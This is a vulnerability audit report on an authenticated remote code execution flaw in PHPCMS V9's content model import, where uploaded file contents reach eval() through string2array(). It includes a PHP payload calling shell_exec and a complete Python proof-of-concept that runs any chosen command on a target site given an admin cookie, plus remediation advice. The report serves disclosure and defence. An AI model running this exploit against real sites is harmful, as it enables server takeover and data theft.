







# PHPCMS V9 Content Model Import Leads to Arbitrary PHP Code Execution

Audit Date: 2026-04-18  
Target Project: `D:\phpstudy_pro\WWW\phpcms_v9.6.3_UTF8\phpcms_v9_UTF8\install_package`  
Analysis Target: The full code-execution chain, code-level root cause, and dynamic verification results for the backend content model import feature at `index.php?m=content&c=sitemodel&a=import`.

## 1. Summary

The root cause of this vulnerability is not "insufficient file extension validation during upload," but rather that the backend content model import feature reads the entire uploaded file into memory and passes it directly to `string2array()`, which executes `eval()` when it detects that the string starts with `array`.

The complete vulnerability chain is as follows:

1. An administrator accesses the content model import page in the backend.
2. A `.model` file is uploaded.
3. `sitemodel::import()` uses `file_get_contents()` to read the entire file content.
4. The result is passed into `string2array($model_import)`.
5. `string2array()` hits the condition `strpos($data, 'array')===0`.
6. It executes `@eval("\$array = $data;");`
7. Arbitrary PHP statements embedded in the uploaded file are executed on the server side.

This chain is not fundamentally related to whether the model fields are valid or whether the subsequent table creation succeeds. Once execution flow reaches `eval()`, arbitrary PHP code has already run.

## 2. Entry Point

The vulnerable entry point is located in:

- `phpcms/modules/content/sitemodel.php`

Target method:

- `sitemodel::import()`

Key code:

- `phpcms/modules/content/sitemodel.php:210-213`

  

```php
if(!empty($_FILES['model_import']['tmp_name'])) {
    $model_import = @file_get_contents($_FILES['model_import']['tmp_name']);
    if(!empty($model_import)) {
        $model_import_data = string2array($model_import);				
    }
}
```

There are three dangerous points here:

1. The uploaded file is not parsed through a safe structured format; instead, the entire file is read as a raw string.
2. There is no whitelist validation for the model file format.
3. The result is passed directly into the dangerous function `string2array()`.

## 3. Dangerous Sink

The dangerous function is located in:

- `phpcms/libs/functions/global.func.php:289-294`

  

```php
function string2array($data) {
    $data = trim($data);
    if($data == '') return array();
    if(strpos($data, 'array')===0){
        @eval("\$array = $data;");
    }else{
        ...
    }
    return $array;
}
```

The actual meaning of this logic is:

- As long as the imported file content starts with `array`
- The program will treat the entire content as PHP code and execute it

Therefore, this is not a "deserialization risk," but a direct `eval`-based code execution issue.

## 4. How the Vulnerability Forms at the Code Level

The malicious model file currently used for dynamic verification is:

- `content_model_whoami.model`

Its content is as follows:

```php
array();file_put_contents(PHPCMS_PATH.'uploadfile/content_model_whoami.txt',trim(shell_exec('whoami 2>&1')));//
```

The program enters the following code:

```php
@eval("\$array = $data;");
```

After that, the equivalent execution effect is:

```php
$array = array();
file_put_contents(
    PHPCMS_PATH.'uploadfile/content_model_whoami.txt',
    trim(shell_exec('whoami 2>&1'))
);
```

In other words, an attacker can not only execute arbitrary PHP statements, but can also further invoke:

- `shell_exec`
- `system`
- `exec`

and other system command execution functions, ultimately achieving operating system command execution.

## 5. Why the Subsequent Model Import Flow Does Not Affect Exploitation

After `string2array()`, `sitemodel::import()` still performs:

- model table creation
- model field iteration
- cache update

However, all of these steps occur after `eval()`.

Therefore:

1. Whether exploitation succeeds does not depend on whether the model file is a valid structure.
2. Even if later field processing fails with an error, the injected PHP statements have already been executed.
3. This vulnerability is "pre-execution code execution," not a "post-execution side effect."

## 6. Dynamic Verification Results

The currently recommended Python PoC is:

- `verify_content_model_import_standalone.py`

  ```
  import argparse
  import sys
  import uuid
  from pathlib import Path
  from urllib import request
  
  
  def php_single_quote_escape(value: str) -> str:
      return value.replace("\\", "\\\\").replace("'", "\\'")
  
  
  def build_multipart(fields: dict[str, str], files: list[tuple[str, str, bytes, str]], boundary: str) -> bytes:
      body = bytearray()
  
      for name, value in fields.items():
          body.extend(f"--{boundary}\r\n".encode("utf-8"))
          body.extend(f'Content-Disposition: form-data; name="{name}"\r\n\r\n'.encode("utf-8"))
          body.extend(value.encode("utf-8"))
          body.extend(b"\r\n")
  
      for field_name, filename, content, mime_type in files:
          body.extend(f"--{boundary}\r\n".encode("utf-8"))
          body.extend(
              f'Content-Disposition: form-data; name="{field_name}"; filename="{filename}"\r\n'.encode("utf-8")
          )
          body.extend(f"Content-Type: {mime_type}\r\n\r\n".encode("utf-8"))
          body.extend(content)
          body.extend(b"\r\n")
  
      body.extend(f"--{boundary}--\r\n".encode("utf-8"))
      return bytes(body)
  
  
  def http_request(url: str, *, method: str = "GET", data: bytes | None = None, cookie: str, content_type: str | None = None) -> str:
      headers = {
          "User-Agent": "phpcms-cve-standalone/1.0",
          "Cookie": cookie,
      }
      if content_type:
          headers["Content-Type"] = content_type
      req = request.Request(url, data=data, method=method, headers=headers)
      with request.urlopen(req, timeout=30) as resp:
          return resp.read().decode("utf-8", "replace")
  
  
  def main() -> int:
      parser = argparse.ArgumentParser(
          description="Standalone PoC for PHPCMS V9 content model import RCE, without relying on common.py."
      )
      parser.add_argument(
          "--base-url",
          default="http://localhost:8088",
          help="Target site URL, default: http://localhost:8088",
      )
      parser.add_argument(
          "--cookie",
          required=True,
          help="The full Cookie header of a logged-in backend administrator. Copy it directly from the browser developer tools.",
      )
      parser.add_argument(
          "--pc-hash",
          required=True,
          help="The value of the pc_hash parameter in the backend URL.",
      )
      parser.add_argument(
          "--cmd",
          default="whoami",
          help="The command to execute, default: whoami.",
      )
      parser.add_argument(
          "--marker",
          default="",
          help="Result filename. Generated automatically by default.",
      )
      args = parser.parse_args()
  
      token = uuid.uuid4().hex[:8]
      model_name = f"AuditStandalone{token}"
      table_name = f"audit_standalone_{token}"
      marker = args.marker or f"standalone_{token}.txt"
  
      escaped_marker = php_single_quote_escape(marker)
      escaped_cmd = php_single_quote_escape(args.cmd)
      payload = (
          "array();"
          f"file_put_contents(PHPCMS_PATH.'uploadfile/{escaped_marker}',"
          f"trim(shell_exec('{escaped_cmd} 2>&1')));"
          "//"
      )
  
      fields = {
          "dosubmit": "1",
          "info[modelname]": model_name,
          "info[tablename]": table_name,
          "info[description]": "standalone-poc",
          "default_style": "default",
          "setting[category_template]": "category",
          "setting[list_template]": "list",
          "setting[show_template]": "show",
      }
      boundary = f"----phpcmsStandalone{uuid.uuid4().hex}"
      multipart = build_multipart(
          fields,
          [("model_import", "standalone.model", payload.encode("utf-8"), "application/octet-stream")],
          boundary,
      )
  
      import_url = f"{args.base_url}/index.php?m=content&c=sitemodel&a=import&pc_hash={args.pc_hash}"
      marker_url = f"{args.base_url}/uploadfile/{marker}"
  
      print(f"[+] Model name used: {model_name}")
      print(f"[+] Table name used: {table_name}")
      print(f"[+] Result file: {marker}")
      print(f"[+] Upload request: {import_url}")
  
      try:
          http_request(
              import_url,
              method="POST",
              data=multipart,
              cookie=args.cookie,
              content_type=f"multipart/form-data; boundary={boundary}",
          )
      except Exception as exc:
          print(f"[-] Upload failed: {exc}")
          return 1
  
      print(f"[+] Import triggered. Reading result from: {marker_url}")
  
      try:
          result = http_request(marker_url, cookie=args.cookie)
      except Exception as exc:
          print(f"[-] Failed to read result: {exc}")
          print("[*] If the import has already succeeded, please manually visit the marker_url above to check the result.")
          return 1
  
      print("[+] Command execution result:")
      print(result.strip())
      print("[*] Note: This script does not automatically delete the temporary imported model or the result file. Please clean them up manually in the backend.")
      return 0
  
  
  if __name__ == "__main__":
      sys.exit(main())
  ```

Execution:

```bash
python verify_content_model_import_standalone.py --cookie "PHPSESSID=0ndoapbuctql1o3a3g7i25l4m1;IwzGl_userid=5872szzCJlzw_213lnWXbd0vhJhkBPtFCMDIt7Kd;IwzGl_admin_username=5363a3ODrtZNA-TBqx33tq5LXflmJVBB8TyvwpV8FOtzCGY;IwzGl_siteid=c83b6sRnFUav5MNeLM74Xm5WE641fUB98aTTpPLy;IwzGl_sys_lang=e66ch4ey_Y-ootOPY6_Tp6k9IITP3R-C8TaMIDxcODzYWQ;IwzGl_admin_email=94d5RFXB9SqdJK9U3E5DWdIaoYFUb9zre_jOzJWSWn6CaWG3m_Tq1g" --pc-hash "W4GgAa" --cmd whoami
```



Fill in the relevant data from your backend login session.



The script behaves as follows:

1. It generates a temporary malicious `.model` payload.
2. Using the backend authenticated session you provide, it uploads the file to:
   `index.php?m=content&c=sitemodel&a=import`
3. The server triggers `eval()` to execute the command you specified.
4. The result is written to `uploadfile/standalone_xxx.txt`.
5. The script then reads that file and prints the result.

The observed output is:

```text
desktop-j0vdgoi\dgh
```

This shows that the current PHP process context has already executed the system command `whoami`. The vulnerability is therefore not merely "arbitrary PHP code execution," but has already reached the level of operating system command execution.

**Manual Exploitation**





Upload our malicious `.model` file:

```
array();file_put_contents(PHPCMS_PATH.'uploadfile/content_model_whoami.txt',trim(shell_exec('whoami 2>&1')));//
```

Then visit `uploadfile/content_model_whoami.txt` to view the execution result.



## 8. Risk Assessment

This issue has the following characteristics:

- Authenticated arbitrary PHP code execution in the backend
- Can be further escalated to system command execution
- Clear root cause and a stable exploitation chain
- Weakly dependent on the deployment environment

This is a typical high-severity RCE.

## 9. Remediation Recommendations

1. Completely remove `eval` from `string2array()`.
2. Change the model import format to JSON or another non-executable format.
3. Perform strict schema validation on imported files.
4. Add finer-grained permission controls to the content model import feature.
5. Add audit logs and secondary confirmation for high-risk backend import functions.
